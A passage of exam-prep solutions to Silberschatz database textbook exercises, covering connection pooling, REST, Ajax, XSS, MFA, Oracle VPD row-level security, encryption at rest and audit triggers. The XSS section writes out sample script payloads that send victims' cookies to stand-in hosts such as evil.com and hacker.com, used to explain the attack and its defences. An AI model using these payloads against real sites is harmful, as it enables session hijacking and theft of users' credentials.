    pool.password = db_pass
    pool.min_size = min_conns
    pool.max_size = max_conns
    pool.timeout = timeout_ms
    pool.is_shutdown = False

    pool.mutex.acquire()
    try:
        # Pre-allocate minimum baseline connections
        for i from 1 to pool.min_size:
            raw_conn = open_raw_db_connection(pool.conn_string, pool.username, pool.password)
            pool.free_connections.push(raw_conn)
            pool.current_total_connections += 1
    finally:
        pool.mutex.release()

    return pool


# 2. FUNCTION TO REQUEST A CONNECTION FROM THE POOL
function request_connection(pool):
    pool.mutex.acquire()
    try:
        if pool.is_shutdown:
            throw Exception("ConnectionPool has been shut down.")

        start_time = get_current_time()

        # Loop until a valid connection is acquired or timeout expires
        while pool.free_connections.is_empty():
            # If capacity permits, instantiate a new connection dynamically
            if pool.current_total_connections < pool.max_size:
                raw_conn = open_raw_db_connection(pool.conn_string, pool.username, pool.password)
                pool.current_total_connections += 1
                pool.active_connections.add(raw_conn)
                return raw_conn

            # Otherwise, wait for an active connection to be released
            remaining_time = pool.timeout - (get_current_time() - start_time)
            if remaining_time <= 0:
                throw TimeoutException("Connection acquisition timed out.")

            pool.has_free_conn.wait(pool.mutex, timeout=remaining_time)
            
            if pool.is_shutdown:
                throw Exception("Pool closed while waiting for connection.")

        # Pop connection from available queue
        conn = pool.free_connections.pop()

        # Health check validation (ping test)
        if not conn.is_valid():
            conn.close()
            pool.current_total_connections -= 1
            # Recreate replacement connection
            conn = open_raw_db_connection(pool.conn_string, pool.username, pool.password)
            pool.current_total_connections += 1

        pool.active_connections.add(conn)
        return conn

    finally:
        pool.mutex.release()


# 3. FUNCTION TO RELEASE A CONNECTION BACK TO THE POOL
function release_connection(pool, conn):
    if conn is None:
        return

    pool.mutex.acquire()
    try:
        if conn not in pool.active_connections:
            throw InvalidArgumentException("Connection does not belong to active pool.")

        pool.active_connections.remove(conn)

        if pool.is_shutdown:
            # If shutting down, dispose of returning connection immediately
            conn.close()
            pool.current_total_connections -= 1
            return

        # Rollback any uncommitted transaction state before re-pooling
        conn.rollback_if_dirty()
        conn.reset_session_variables()

        # If pool exceeds min_size and excess connections are idling, close it
        if pool.current_total_connections > pool.min_size and pool.free_connections.size() >= pool.min_size:
            conn.close()
            pool.current_total_connections -= 1
        else:
            pool.free_connections.push(conn)

        # Wake up a waiting worker thread
        pool.has_free_conn.signal()

    finally:
        pool.mutex.release()


# 4. FUNCTION TO CLOSE THE CONNECTION POOL
function close_pool(pool):
    pool.mutex.acquire()
    try:
        pool.is_shutdown = True

        # Close all idle connections
        while not pool.free_connections.is_empty():
            conn = pool.free_connections.pop()
            conn.close()

        # Close all active connections (force abort)
        for conn in pool.active_connections:
            conn.close()
        pool.active_connections.clear()

        pool.current_total_connections = 0

        # Wake up all waiting threads so they receive shutdown exceptions
        pool.has_free_conn.broadcast()

    finally:
        pool.mutex.release()
```

#### 3. RUET Exam Insights & Examiner Notes
- **Concurrency & Deadlock Prevention:** Ensure your pseudocode explicitly locks (`mutex.acquire()`) and unlocks (`mutex.release()`) within a `try-finally` construct. Forgetting synchronization mechanisms in multi-threaded application servers will lead to lost marks.
- **Resetting Connection State:** Mention resetting transaction state (`rollback`) before returning connections to prevent session state leakage between different users.

---

### Exercise 9.18 · Architectural Paradigm Analysis: CRUD and REST

> [!info] Exercise Metadata
> - **Source:** Silberschatz 7e Chapter 09 (*Application Development*), Section 9.4.2 & Section 9.6
> - **Type:** Regular Exercise (Conceptual & Architectural Comparison)
> - **Keywords:** CRUD, REST, HTTP verbs, statelessness, resources, URIs, idempotence.
> - **RUET Relevance:** High. Foundational question on modern web application architectures and service interfaces.

**Question (Silberschatz 7e Exercise 9.18).**  
Explain the terms CRUD and REST.

#### 1. Core Principles & Concept Overview
- **CRUD (Create, Read, Update, Delete):** A data-centric acronym describing the four primitive, fundamental operations performed on persistent storage records. It maps directly to core relational SQL operations.
- **REST (Representational State Transfer):** An architectural style for distributed, hypermedia systems formulated by Roy Fielding (2000). It organizes systems around uniquely identified **resources** manipulated via standardized, stateless operations.

#### 2. Detailed Step-by-Step Solution

##### A. Detailed Examination of CRUD
CRUD characterizes entity lifecycle storage management:
- **C (Create):** Instantiates and persists a new entity record into storage.  
  *SQL Mapping:* `INSERT INTO relation VALUES (...)`
- **R (Read):** Retrieves existing entity representations matching given predicates without modifying state.  
  *SQL Mapping:* `SELECT * FROM relation WHERE ...`
- **U (Update):** Modifies attributes of one or more existing records.  
  *SQL Mapping:* `UPDATE relation SET col = val WHERE ...`
- **D (Delete):** Permanently purges or marks inactive existing records.  
  *SQL Mapping:* `DELETE FROM relation WHERE ...`

##### B. Detailed Examination of REST
REST defines constraints governing web services:
1. **Resource Identification via URI:** Every conceptual entity is addressed via a standard Uniform Resource Identifier (e.g., `https://api.ruet.ac.bd/students/2310035`).
2. **Uniform Interface (Standardized HTTP Verbs):** Uses standard HTTP methods mapped to resource semantics:
   - `GET`: Safe, idempotent retrieval of resource state.
   - `POST`: Non-idempotent submission creating a subordinate resource.
   - `PUT`: Idempotent full replacement of the resource at the target URI.
   - `PATCH`: Partial modification of resource attributes.
   - `DELETE`: Idempotent removal of the resource.
3. **Statelessness:** The server preserves **no client context** between requests. Every individual request must carry all authentication credentials, query filters, and headers necessary to execute.
4. **Self-Descriptive Messages & Media Types:** Data payloads are encoded in standardized representations (JSON, XML) accompanied by explicit metadata (`Content-Type: application/json`).
5. **HATEOAS (Hypermedia As The Engine Of Application State):** Server responses supply dynamic hypermedia links informing clients of viable transition paths.

##### C. Structural Alignment: CRUD vs. REST

| CRUD Operation | Target Concept | HTTP Verb | Example RESTful Endpoint | Semantic Characteristic |
| :--- | :--- | :---: | :--- | :--- |
| **Create** | Table Record | `POST` | `POST /api/v1/courses` | Non-Idempotent (multiple calls produce multiple entities) |
| **Read** | Row(s) / Tuple(s) | `GET` | `GET /api/v1/courses/CS101` | Safe & Idempotent (does not modify server state) |
| **Update** | Attribute Values | `PUT` / `PATCH` | `PUT /api/v1/courses/CS101` | `PUT` is Idempotent; replaces complete representation |
| **Delete** | Tuple Purge | `DELETE` | `DELETE /api/v1/courses/CS101`| Idempotent (repeated purges produce identical outcome) |

##### D. Conceptual Distinctions
- **Scope:** CRUD is an operational database model; REST is a complete architectural style governing network communication, caching, intermediary proxies, and decoupling.
- **Protocol Coupling:** CRUD is protocol-agnostic (applies to SQL, file systems, key-value stores); REST is fundamentally decoupled from implementation details but standardizes on HTTP transport semantics.

#### 3. RUET Exam Insights & Examiner Notes
- **Key Pitfall:** Do not treat CRUD and REST as competing alternatives! RESTful APIs frequently expose CRUD capabilities over HTTP resources.
- **Idempotence Note:** RUET examiners award high marks for mentioning mathematical **idempotence** ($\forall x: f(f(x)) = f(x)$) when differentiating `POST` from `PUT`/`DELETE`.

---

### Exercise 9.19 · Black-Box Ajax Detection and Asynchronous Client Interactions

> [!info] Exercise Metadata
> - **Source:** Silberschatz 7e Chapter 09 (*Application Development*), Section 9.5.3
> - **Type:** Regular Exercise (Practical Web Architecture & Analysis)
> - **Keywords:** Ajax, `XMLHttpRequest`, DOM manipulation, asynchronous communication, network traffic.
> - **RUET Relevance:** Medium. Tests practical observation of asynchronous client-side technologies.

**Question (Silberschatz 7e Exercise 9.19).**  
Many web sites today provide rich user interfaces using Ajax. List two features each of which reveals if a site uses Ajax, without having to look at the source code. Using the above features, find three sites which use Ajax; you can view the HTML source of the page to check if the site is actually using Ajax.

#### 1. Core Principles & Concept Overview
**Ajax (Asynchronous JavaScript and XML):** A client-side web development paradigm enabling web browsers to exchange data with backend servers asynchronously in the background using `fetch()` or `XMLHttpRequest`.
- **Traditional Web Interaction:** Synchronous click $\to$ Full page blank/flash $\to$ Full HTTP reload $\to$ Complete page re-rendering.
- **Ajax-Driven Web Interaction:** Asynchronous event $\to$ Background HTTP data request (JSON/XML) $\to$ Dynamic DOM node update in-place without page reloading or scroll reset.

#### 2. Detailed Step-by-Step Solution

##### A. Two User-Visible Features Revealing Ajax (Black-Box Detection)
Without examining underlying source code or developer consoles:

1. **Partial Screen Updates Without Full Page Flickering / Scroll Disruption:**
   - *Observable Symptom:* When a user triggers an action (such as filtering an inventory list, upvoting a post, or submitting a comment), specific segments or tabular sub-trees of the page refresh instantly with new content while the rest of the page (navigation headers, embedded video/audio players, form inputs, and scroll position) remains entirely static and uninterrupted.
   - *Contrast:* In non-Ajax sites, the browser tab displays a reload spinner, the screen momentarily whites out, and the viewport resets to the top.

2. **Real-Time Asynchronous Typeahead / Dynamic Predictive Autocomplete:**
   - *Observable Symptom:* As the user types characters into an input field (such as a search bar or airport code lookup), an interactive dropdown box populated with live matching suggestions appears below the cursor within milliseconds.
   - *Contrast:* The browser did not submit a form; suggestions adapt letter-by-letter as backend database queries return data asynchronously to the browser.

##### B. Three Real-World Sites Demonstrating Ajax and Verification

1. **Google Maps (`maps.google.com`):**
   - *Observable Feature:* Continuous smooth dragging/panning across geographic terrain. Map tiles download dynamically on demand without reloading the surrounding controls.
   - *Underlying Verification:* Inspecting the Network tab reveals hundreds of background HTTP `GET` requests fetching image chunks and vector tiles (`/maps/vt?...`) dispatched via JavaScript asynchronous workers.

2. **Twitter / X (`x.com`) or Reddit (`reddit.com`):**
   - *Observable Feature:* **Infinite Scrolling** and inline metric updates. As the user scrolls toward the bottom of the feed, new posts load seamlessly into view. Clicking "Like" increments the counter immediately without page refresh.
   - *Underlying Verification:* Examining the DOM shows JavaScript asynchronously dispatching GraphQL/REST `POST` requests to backend endpoints and appending `<div>` nodes dynamically into the DOM tree.

3. **Google Search (`google.com`):**
   - *Observable Feature:* Instant search prediction. Typing "RUET ECE" immediately renders a dropdown of top queries with zero full-page reload cycles.
   - *Underlying Verification:* Network monitoring reveals periodic requests to `/complete/search?client=chrome&q=RUET+ECE...` returning JSON arrays rendered via client scripts.

#### 3. RUET Exam Insights & Examiner Notes
- **Key Distinctions:** Ensure your answer distinguishes between **client-side CSS animations** (which do not require network calls) and **true Ajax interactions** (which dynamically fetch fresh data from a database server without page reload).

---

### Exercise 9.20 · Cross-Site Scripting (XSS) Vectors and Referer Verification

> [!info] Exercise Metadata
> - **Source:** Silberschatz 7e Chapter 09 (*Application Development*), Section 9.8.2
> - **Type:** Regular Exercise (Application Security & Vulnerability Analysis)
> - **Keywords:** Cross-Site Scripting, XSS, Stored XSS, Reflected XSS, HTTP Referer header, CSRF.
> - **RUET Relevance:** High. Directly complements recurring exam questions on database security threats and web attack vectors.

**Question (Silberschatz 7e Exercise 9.20).**  
XSS attacks:  
a. What is an XSS attack?  
b. How can the referer field be used to detect some XSS attacks?

#### 1. Core Principles & Concept Overview
Web security rests on the **Same-Origin Policy (SOP)**: scripts running in the context of `https://bank.com` cannot access cookies, DOM elements, or storage belonging to `https://attacker.com`.
**Cross-Site Scripting (XSS)** bypasses this boundary by injecting malicious script payloads into trusted web applications, executing within the victim's authenticated browser context.

```text
Attacker injects <script>fetch('http://evil.com/steal?c='+document.cookie)</script>
                                |
                    Stored in Database or Reflected
                                |
Victim Browser requests trusted page ---> Executes script under trusted origin!
                                |
Attacker receives victim's session cookies & auth tokens
```

#### 2. Detailed Step-by-Step Solution

##### Part a. Definition and Taxonomy of XSS Attacks
An **XSS (Cross-Site Scripting)** attack occurs when an application receives untrusted data and includes it in a web page without proper validation, sanitization, or context-aware output encoding. The victim's browser executes this injected script (usually JavaScript) believing it originated from a legitimate, trusted origin.

###### Attack Classifications:
1. **Stored (Persistent) XSS:** Malicious payload is permanently saved in the database (e.g., inside a forum comment, user bio, or review field). Every user viewing that entry automatically executes the script:
   ```html
   <!-- Malicious user input saved directly to database -->
   Great lecture! <script>new Image().src="http://hacker.com/log?cookie=" + document.cookie;</script>
   ```
2. **Reflected (Non-Persistent) XSS:** Payload is embedded into an HTTP link (e.g., query parameters in a search bar) and reflected off the web server in the response page:
   ```text
   https://ruet.ac.bd/search?query=<script>document.location='http://evil.com/steal?data='+document.cookie</script>
   ```
3. **DOM-Based XSS:** The vulnerability exists entirely within client-side JavaScript that writes untrusted input into execution sinks (e.g., `document.write()`, `innerHTML`, `eval()`).

###### Impact:
- Exfiltration of sensitive session cookies (`document.cookie`), enabling session hijacking.
- Keystroke logging (stealing login credentials or credit card numbers).
- Silent execution of unauthorized transactions on behalf of the logged-in user.

##### Part b. Using the HTTP `Referer` Field to Detect / Mitigate Attacks
The HTTP `Referer` (standard misspelling in RFC specifications) request header is sent by the browser to indicate the absolute URI of the preceding webpage that linked to the currently requested resource.

###### Mechanics of Detection:
1. **Validating Request Provenance:** When a sensitive state-changing action or form submission is requested (e.g., `POST /transferMoney`), the server checks the `Referer` header:
   ```http
   POST /transferMoney HTTP/1.1
   Host: mybank.com
   Referer: https://mybank.com/account/dashboard.html
   ```
2. **Cross-Origin Mismatch Identification:** If an attacker crafts a malicious link or embeds an exploit on `https://evil-hacker.com/phish.html`:
   ```http
   GET /search?q=<script>...</script> HTTP/1.1
   Host: mybank.com
   Referer: https://evil-hacker.com/phish.html
   ```
   The backend server observes that the domain in `Referer` (`evil-hacker.com`) does not match its own domain (`mybank.com`). The server detects the cross-site origin and can drop the request, sanitize reflective output, or log a security alert.

###### Critical Limitations of the `Referer` Defense:
- **Ineffective against Stored XSS:** If the payload is stored inside the database, the page is requested directly from `mybank.com`. The `Referer` header will point to `mybank.com`, appearing completely legitimate.
- **Referrer-Policy Suppression:** Modern browsers support headers (`Referrer-Policy: no-referrer`) that strip or truncate the `Referer` string for privacy, yielding blank values that hinder reliable verification.
- **Spoofing via Intermediaries:** Non-browser clients, compromised proxies, or malware can spoof the `Referer` header arbitrarily.
- **Primary Countermeasures Required:** True defense against XSS requires **Context-Aware Output Encoding** (e.g., converting `<` to `&lt;`), **Content Security Policy (CSP)** headers, and the `HttpOnly` flag on sensitive cookies.

#### 3. RUET Exam Insights & Examiner Notes
- **Distinction between XSS and CSRF:** Make sure not to confuse XSS (executing code in victim's browser on trusted site) with Cross-Site Request Forgery (CSRF - tricking browser into submitting unauthorized requests to another site). The `Referer` header is primarily a classic mitigation against CSRF and Reflected XSS.

---

### Exercise 9.21 · Multi-Factor Authentication Architecture and Threat Mitigation

> [!info] Exercise Metadata
> - **Source:** Silberschatz 7e Chapter 09 (*Application Development*), Section 9.8.4
> - **Type:** Regular Exercise (Identity & Authentication Security)
> - **Keywords:** Multi-Factor Authentication (MFA), credential stuffing, TOTP, biometrics, hardware tokens.
> - **RUET Relevance:** High. Core concept in modern security infrastructure, frequently queried in oral exams and written security questions.

**Question (Silberschatz 7e Exercise 9.21).**  
What is multifactor authentication? How does it help safeguard against stolen passwords?

#### 1. Core Principles & Concept Overview
Authentication establishes the verified identity of a principal. Traditional single-factor authentication relies entirely on **Knowledge** (passwords).
**Multi-Factor Authentication (MFA)** enforces security through defense-in-depth by requiring the successful presentation of two or more independent authentication factors spanning distinct categories.



#### 2. Detailed Step-by-Step Solution

##### A. Definition and Categorization of Authentication Factors
A system qualifies as **Multi-Factor Authentication** if and only if it mandates credentials from at least **two different** categories among the canonical authentication factors:

1. **Knowledge Factor (Something You Know):** Information the user memorizes (passwords, passphrase, personal identification numbers [PIN]).
2. **Possession Factor (Something You Have):** A physical or cryptographic asset uniquely held by the user (hardware security token like YubiKey/FIDO2, smart card, time-based one-time password [TOTP] generator app like Google Authenticator, or mobile SIM).
3. **Inherence Factor (Something You Are):** Physical biometric attributes of the individual (fingerprint patterns, retinal/iris scans, facial topography, voice recognition).

*(Note: Providing two passwords or answering two security questions is Two-Step Verification, not Multi-Factor Authentication, because both derive from the Knowledge factor.)*

##### B. How MFA Safeguards Against Stolen Passwords
Passwords are routinely compromised via diverse attack vectors:
- Data breaches leaking relational database password dumps.
- Phishing sites impersonating legitimate login interfaces.
- Keystroke logging malware installed on user workstations.
- Credential stuffing (reusing passwords leaked from unrelated third-party sites).
- Shoulder surfing and brute-force dictionary attacks.

###### Threat Mitigation Mechanism:
1. **Invalidation of the Single-Point-of-Failure:** Under MFA, the stolen password satisfies only **one** factor (Knowledge). To gain access, the adversary must simultaneously compromise an entirely orthogonal, independent channel (Possession or Inherence).
2. **Dynamic Time-Based One-Time Passwords (TOTP):** Systems implementing RFC 6238 TOTP compute:
   $$
   \text{TOTP} = \text{Truncate}(\text{HMAC-SHA-1}(K, T))
   $$
   where $K$ is a secret cryptographic key shared exclusively between the server and the user's secure hardware element, and $T = \lfloor (\text{current\_unix\_time} - T_0) / 30 \rfloor$. Even if an adversary captures a TOTP token over an unencrypted channel, it expires within 30 seconds and cannot be reused.
3. **Origin-Bound Cryptographic Signatures (FIDO2 / WebAuthn):** Modern possession tokens utilize public-key cryptography bound to the browser's TLS origin (`ruet.ac.bd`). If a user is phished on `ruet-fake.ac.bd`, the hardware key cryptographically signs a challenge for `ruet-fake.ac.bd`, which the legitimate server immediately rejects.

Thus, a stolen password alone is useless to an attacker without physical access to the user's secondary factor.

#### 3. RUET Exam Insights & Examiner Notes
- **Crucial Academic Distinction:** Clearly state that MFA requires factors from **different categories**. Entering a password followed by the answer to "What is your mother's maiden name?" is **Single-Factor (Two-Step)** because both are knowledge-based. Emphasizing this nuance earns full credit.

---

### Exercise 9.22 · Oracle Virtual Private Database (VPD) Row-Level Security

> [!info] Exercise Metadata
> - **Source:** Silberschatz 7e Chapter 09 (*Application Development*), Section 9.8.5
> - **Type:** Regular Exercise (Advanced Authorization & Non-Monotonic Query Rewriting)
> - **Keywords:** Oracle VPD, Row-Level Security (RLS), predicate injection, non-monotonic queries, fine-grained access.
> - **RUET Relevance:** Very High. Demonstrates fine-grained access control beyond standard SQL relation-level grants.

**Question (Silberschatz 7e Exercise 9.22).**  
Consider the Oracle Virtual Private Database (VPD) feature described in Section 9.8.5 and an application based on our university schema.  
a. What predicate (using a subquery) should be generated to allow each faculty member to see only `takes` tuples corresponding to course sections that they have taught?  
b. Give an SQL query such that the query with the predicate added gives a result that is a subset of the original query result without the added predicate.  
c. Give an SQL query such that the query with the predicate added gives a result containing a tuple that is not in the result of the original query without the added predicate.

#### 1. Core Principles & Concept Overview
Standard SQL `GRANT` operates at table or column granularity. **Oracle Virtual Private Database (VPD)** (also known as Fine-Grained Access Control or Row-Level Security) associates security policies with tables. When an application queries a table, the database transparently appends an authorization predicate into the `WHERE` clause:
$$
Q_{\text{executed}} = \sigma_{\text{UserQuery} \land \text{VPDPredicate}}(R)
$$
- For monotonic queries (simple selections, projections, joins), adding $\land P$ restricts rows, yielding a **subset**.
- For **non-monotonic queries** (involving negation like `NOT EXISTS`, `EXCEPT`, or `LEFT OUTER JOIN`), adding $\land P$ to an inner subquery can **produce tuples that were not in the unconstrained result**!

```text
User Query: SELECT * FROM takes;
                 |
        [VPD Policy Applied]
                 |
Rewritten Query: SELECT * FROM takes 
                 WHERE (course_id, sec_id, semester, year) IN 
                       (SELECT course_id, sec_id, semester, year 
                        FROM teaches WHERE ID = sys_context.user_id());
```

#### 2. Detailed Step-by-Step Solution

##### University Schema Reference
- `takes(ID, course_id, sec_id, semester, year, grade)`
- `teaches(ID, course_id, sec_id, semester, year)`
- `section(course_id, sec_id, semester, year, building, room_number, time_slot_id)`

##### Part a. Fine-Grained Predicate for Faculty Members
To restrict an instructor to viewing only `takes` tuples for sections they have taught, the VPD policy function must dynamically generate the following predicate appended to any query referencing `takes`:

```sql
(course_id, sec_id, semester, year) IN (
    SELECT course_id, sec_id, semester, year
    FROM teaches
    WHERE teaches.ID = sys_context.user_id()
)
```

*Equivalent correlated `EXISTS` formulation:*
```sql
EXISTS (
    SELECT 1 
    FROM teaches 
    WHERE teaches.ID = sys_context.user_id()
      AND teaches.course_id = takes.course_id
      AND teaches.sec_id = takes.sec_id
      AND teaches.semester = takes.semester
      AND teaches.year = takes.year
)
```
*(Here, `sys_context.user_id()` returns the authenticated instructor's ID).*

##### Part b. Query Where Result With Predicate is a Subset
For any monotonic selection query, conjunctively appending $\land P_{\text{VPD}}$ can only filter out tuples.

**Original Query:**
```sql
SELECT ID, course_id, grade 
FROM takes 
WHERE grade = 'A';
```
- **Without VPD Predicate:** Returns all students across the entire university who obtained an 'A' in any course section.
- **With VPD Predicate Added:**
  ```sql
  SELECT ID, course_id, grade 
  FROM takes 
  WHERE grade = 'A'
    AND (course_id, sec_id, semester, year) IN (
        SELECT course_id, sec_id, semester, year
        FROM teaches
        WHERE teaches.ID = sys_context.user_id()
    );
  ```
  Returns only students who obtained an 'A' in sections taught by the querying instructor.
- **Set Relationship:**
  $$
  \text{Result}_{\text{with VPD}} \subseteq \text{Result}_{\text{without VPD}}
  $$

##### Part c. Query Where Result With Predicate Contains Tuples NOT in Original Result
To produce a result tuple under VPD that does *not* exist in the unconstrained query, we must exploit **negation / non-monotonic operations** (e.g., `NOT EXISTS`, `EXCEPT`, or `LEFT OUTER JOIN`).

###### Concrete Scenario Using `NOT EXISTS`:
Suppose an administrator or department head runs a query to find all sections that have **zero enrollment** (sections where no students took the course):

**Original Query:**
```sql
SELECT s.course_id, s.sec_id, s.semester, s.year
FROM section s
WHERE NOT EXISTS (
    SELECT 1 
    FROM takes t
    WHERE t.course_id = s.course_id
      AND t.sec_id = s.sec_id
      AND t.semester = s.semester
      AND t.year = s.year
);
```

**Execution Behavior:**
1. **Without VPD:** Suppose Section $S_1$ (taught by Instructor Einstein) has 30 students enrolled. The subquery finds rows in `takes`. `NOT EXISTS` evaluates to `FALSE`. Section $S_1$ is **not** included in the output.
2. **With VPD Policy Applied to `takes`:** Now suppose Instructor Mozart logs in. The VPD mechanism rewrites the inner reference to `takes`:
   ```sql
   SELECT s.course_id, s.sec_id, s.semester, s.year
   FROM section s
   WHERE NOT EXISTS (
       SELECT 1 
       FROM takes t
       WHERE t.course_id = s.course_id
         AND t.sec_id = s.sec_id
         AND t.semester = s.semester
         AND t.year = s.year
         AND (t.course_id, t.sec_id, t.semester, t.year) IN (
             SELECT course_id, sec_id, semester, year
             FROM teaches
             WHERE teaches.ID = sys_context.user_id() -- Mozart's ID
         )
   );
   ```
3. **The Anomaly:** When evaluating Section $S_1$ (taught by Einstein), the VPD predicate filters out all 30 students because Mozart did not teach $S_1$! From Mozart's perspective, the inner subquery returns **empty**.
4. Thus, `NOT EXISTS` evaluates to **`TRUE`**!
5. Section $S_1$ is emitted in the output as an "empty section," even though it actually has 30 enrolled students!

This tuple was **not** present in the unconstrained query result:
$$
\text{Result}_{\text{with VPD}} \not\subseteq \text{Result}_{\text{without VPD}}
$$

###### Alternative Scenario Using `LEFT OUTER JOIN`:
```sql
SELECT s.ID, s.name, t.course_id 
FROM student s LEFT OUTER JOIN takes t ON s.ID = t.ID;
```
If student `12345` takes courses taught exclusively by Einstein, when Mozart runs this query, VPD turns `takes` empty for `12345`. The `LEFT OUTER JOIN` pads with `NULL`: `(12345, 'Zhang', NULL)`. In the original query, `(12345, 'Zhang', 'CS-101')` was returned and the null-padded tuple was never present!

#### 3. RUET Exam Insights & Examiner Notes
- **Theoretical Distinction:** Part (c) is a classic advanced database theory question. Under monotonic relational algebra ($\sigma, \Pi, \times, \cup$), adding conditions always shrinks or preserves the set. Non-monotonic operations ($\setminus$, `NOT EXISTS`, outer joins) can invert containment. Demonstrating this non-monotonic inversion guarantees full marks.

---

### Exercise 9.23 · Database Encryption at Rest: Strategic and Legal Benefits

> [!info] Exercise Metadata
> - **Source:** Silberschatz 7e Chapter 09 (*Application Development*), Section 9.9
> - **Type:** Regular Exercise (Data Protection & Storage Security)
> - **Keywords:** Encryption at rest, Transparent Data Encryption (TDE), physical media theft, regulatory compliance.
> - **RUET Relevance:** High. Core question for exam topics on database protection and physical vs. logical security threats.

**Question (Silberschatz 7e Exercise 9.23).**  
What are two advantages of encrypting data stored in the database?

#### 1. Core Principles & Concept Overview
Data in relational databases exists in three states: *Data in Transit* (network communication), *Data in Use* (RAM/CPU cache), and *Data at Rest* (persistent storage).
**Database Encryption at Rest (e.g., Transparent Data Encryption / TDE)** applies symmetric cipher suites (such as AES-256) to data blocks, tablespaces, or columns before they are written to physical persistent media.

```text
+-------------------------------------------------------+
| Database Management System                            |
|                                                       |
|  Plaintext Table  ---> [AES-256 Encryption Engine]    |
|                              | (Database Key)         |
+------------------------------|------------------------+
                               v
+-------------------------------------------------------+
| Operating System & Physical Storage                   |
|                                                       |
|  Raw Disk Storage: Encrypted Blocks (0x7F 0xA3 0x9B...) |
|  Backup Tapes / SSDs: Unreadable without Key          |
+-------------------------------------------------------+
```

#### 2. Detailed Step-by-Step Solution

##### Advantage 1: Protection Against Physical Media Theft and Out-of-Band Compromise
- **Threat Vector:** An attacker steals physical storage drives, retired decommissioned servers, or magnetic backup tapes. Alternatively, an adversary with OS-level root/administrator privileges bypasses the DBMS engine and directly inspects raw file system data files (e.g., `.mdf`, `.dbf`, or write-ahead log files) using hexadecimal file viewers.
- **Mitigation:** When data at rest is encrypted using strong cryptographic ciphers (e.g., AES-128 or AES-256), the stolen raw storage blocks are cryptographically indistinguishable from random noise. Without the master decryption key (stored securely in a hardware security module [HSM] or external Key Management Service [KMS]), the data is unreadable, completely neutralizing out-of-band physical and OS-level compromises.

##### Advantage 2: Compliance with Legal Mandates and Defense Against Insider Privilege Abuse
- **Regulatory Compliance:** International legal standards and industry compliance frameworks (e.g., GDPR Article 32, HIPAA §164.312, PCI-DSS Requirement 3) mandate that sensitive personal data (Social Security Numbers, credit card Primary Account Numbers, medical records) must be encrypted at rest. Failure to do so incurs massive statutory penalties and corporate liability in the event of a breach.
- **Mitigation of Rogue System Administrators:** In large enterprise hosting architectures, database files are maintained by system, storage, and cloud infrastructure administrators. Encryption at rest (especially column-level encryption where the application manages the key) enforces the principle of least privilege: OS and storage administrators can back up and manage raw files without ever having access to confidential customer records.

#### 3. RUET Exam Insights & Examiner Notes
- **Key Caveat for Examiners:** Always note that encryption at rest does *not* protect against SQL injection or compromised application credentials! If an attacker logs in through an authorized SQL interface, the DBMS decrypts the data transparently. Pointing out this boundary shows nuanced understanding.

---

### Exercise 9.24 · Database Audit Trail Architecture and Malicious DBA Circumvention

> [!info] Exercise Metadata
> - **Source:** Silberschatz 7e Chapter 09 (*Application Development*), Section 9.8.6 & Section 5.3
> - **Type:** Regular Exercise (Security Architecture & Governance)
> - **Keywords:** Audit trail, triggers, `takes_trail`, DBA privilege abuse, separation of duties, tamper resistance.
> - **RUET Relevance:** High. Directly tests trigger mechanics (Topic T07) integrated with database governance and forensics (Topic T13).

**Question (Silberschatz 7e Exercise 9.24).**  
Suppose you wish to create an audit trail of changes to the `takes` relation.  
a. Define triggers to create an audit trail, logging the information into a relation called, for example, `takes_trail`. The logged information should include the user-id (assume a function `user_id()` provides this information) and a timestamp, in addition to old and new values. You must also provide the schema of the `takes_trail` relation.  
b. Can the preceding implementation guarantee that updates made by a malicious database administrator (or someone who manages to get the administrator’s password) will be in the audit trail? Explain your answer.

#### 1. Core Principles & Concept Overview
An **Audit Trail** is an append-only forensic log documenting all database modifications (`INSERT`, `UPDATE`, `DELETE`), capturing *who* performed the action, *when* it occurred, and the *exact data delta* (before and after states).
Triggers provide declarative mechanism for automatic audit generation. However, **superusers (DBAs)** possess the authority to alter schemas, disable triggers, and modify audit tables, introducing a fundamental access control challenge.

#### 2. Detailed Step-by-Step Solution

##### Part a. Schema and Trigger Implementation

###### Step 1: DDL for the Audit Trail Relation
```sql
CREATE TABLE takes_trail (
    trail_id INT GENERATED ALWAYS AS IDENTITY PRIMARY KEY,
    action_type VARCHAR(10) NOT NULL, -- 'INSERT', 'UPDATE', or 'DELETE'
    modified_by VARCHAR(50) NOT NULL, -- Captured via user_id()
    modified_at TIMESTAMP NOT NULL,   -- System timestamp
    
    -- Pre-modification image (Old Values)
    old_ID VARCHAR(5),
    old_course_id VARCHAR(8),
    old_sec_id VARCHAR(8),
    old_semester VARCHAR(6),
    old_year NUMERIC(4,0),
    old_grade VARCHAR(2),
    
    -- Post-modification image (New Values)
    new_ID VARCHAR(5),
    new_course_id VARCHAR(8),
    new_sec_id VARCHAR(8),
    new_semester VARCHAR(6),
    new_year NUMERIC(4,0),
    new_grade VARCHAR(2)
);
```

###### Step 2: Trigger for UPDATE Operations
```sql
CREATE OR REPLACE TRIGGER audit_takes_update
AFTER UPDATE ON takes
FOR EACH ROW
BEGIN
    INSERT INTO takes_trail (
        action_type, modified_by, modified_at,
        old_ID, old_course_id, old_sec_id, old_semester, old_year, old_grade,
        new_ID, new_course_id, new_sec_id, new_semester, new_year, new_grade
    ) VALUES (
        'UPDATE',
        user_id(),
        CURRENT_TIMESTAMP,
        :OLD.ID, :OLD.course_id, :OLD.sec_id, :OLD.semester, :OLD.year, :OLD.grade,
        :NEW.ID, :NEW.course_id, :NEW.sec_id, :NEW.semester, :NEW.year, :NEW.grade
    );
END;
```

###### Step 3: Trigger for INSERT Operations
```sql
CREATE OR REPLACE TRIGGER audit_takes_insert
AFTER INSERT ON takes
FOR EACH ROW
BEGIN
    INSERT INTO takes_trail (
        action_type, modified_by, modified_at,
        old_ID, old_course_id, old_sec_id, old_semester, old_year, old_grade,
        new_ID, new_course_id, new_sec_id, new_semester, new_year, new_grade
    ) VALUES (
        'INSERT',
        user_id(),
        CURRENT_TIMESTAMP,
        NULL, NULL, NULL, NULL, NULL, NULL,
        :NEW.ID, :NEW.course_id, :NEW.sec_id, :NEW.semester, :NEW.year, :NEW.grade
    );
END;
```

###### Step 4: Trigger for DELETE Operations
```sql
CREATE OR REPLACE TRIGGER audit_takes_delete
AFTER DELETE ON takes
FOR EACH ROW
BEGIN
    INSERT INTO takes_trail (
        action_type, modified_by, modified_at,
        old_ID, old_course_id, old_sec_id, old_semester, old_year, old_grade,
        new_ID, new_course_id, new_sec_id, new_semester, new_year, new_grade
    ) VALUES (
        'DELETE',
        user_id(),
        CURRENT_TIMESTAMP,
